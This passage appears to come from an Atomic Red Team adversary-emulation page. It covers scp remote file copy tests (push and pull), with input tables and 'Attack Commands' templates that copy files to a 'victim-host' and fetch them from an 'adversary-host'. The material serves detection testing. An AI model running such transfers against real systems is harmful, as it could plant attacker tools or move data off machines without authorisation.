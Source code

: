 
**auto_generated_guid:** 83a49600-222b-4866-80a0-37736ad29344





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | Remote path to receive scp | path | /tmp/victim-files/|
| local_file | Path of file to copy | path | /tmp/adversary-scp|
| remote_host | Remote host to copy toward | string | victim-host|
| username | User account to authenticate on remote host | string | victim|


#### Attack Commands: Run with `sh`! 


```sh
scp #{local_file} #{username}@#{remote_host}:#{remote_path}
```






<br/>
<br/>

## Atomic Test #4 - scp remote file copy (pull)
Utilize scp to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** b9d22b9a-9778-4426-abf0-568ea64e9c33





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_host | Remote host to copy from | string | adversary-host|
| local_path | Local path to receive scp | path | /tmp/victim-files/|
| remote_file | Path of file to copy | path | /tmp/adversary-scp|
| username | User account to authenticate on remote host | string | adversary|


#### Attack Commands: Run with `sh`! 


```sh
scp #{username}@#{remote_host}:#{remote_file} #{local_path}
```

